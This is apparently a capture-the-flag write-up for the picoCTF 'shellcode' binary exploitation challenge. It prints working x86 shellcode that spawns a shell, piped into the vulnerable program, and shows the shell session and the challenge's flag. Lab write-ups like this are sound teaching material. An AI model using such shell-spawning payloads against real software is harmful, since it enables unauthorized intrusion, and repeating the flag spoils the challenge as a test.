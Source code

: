# shellcode
Binary Exploitation - 200 points

## Challenge 
> This [program](vuln) executes any input you give it. Can you get a shell? You can find the program in /problems/shellcode_3_09e0c5074980877d900d65c545d1e127 on the shell server. 

[Source.](vuln.c)


## Solution

The right shellcode must be used.

These few seem to work for me:

- http://shell-storm.org/shellcode/files/shellcode-827.php
- http://shell-storm.org/shellcode/files/shellcode-575.php

Referring to [@LFlare's writeup from PicoCTF 2017](https://github.com/LFlare/picoctf_2017_writeup/tree/master/binary/shellz)


	$ python -c "print('\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80')" > ~/payload
	
	$ cat ~/payload - | ./vuln 
	Enter a string!
	j
	 X?Rh//shh/bin??1?̀
	Thanks! Executing now...
	ls
	flag.txt  vuln	vuln.c
	cat flag.txt
	picoCTF{shellc0de_w00h00_7f5a7309}
